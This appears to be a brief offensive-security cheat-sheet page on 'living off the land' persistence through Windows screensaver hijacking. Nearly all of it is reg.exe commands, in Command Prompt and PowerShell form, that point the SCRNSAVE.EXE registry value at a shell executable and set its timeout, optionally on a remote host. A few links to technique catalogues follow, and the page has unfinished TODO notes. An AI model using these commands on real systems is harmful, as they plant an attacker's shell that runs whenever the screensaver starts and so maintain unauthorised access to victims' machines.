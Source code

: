 # Living off the Land

TODO: Refer to the link

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

## 02 - PowerShell

TODO: Convert the commands to cmdlets

```
PS C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

PS C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Github

- [austin-lai: Persistence through Windows Screensaver Hijacking](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking)

### Persistence Info

- [Persistence Info: Screen Saver](https://persistence-info.github.io/Data/screensaver.html)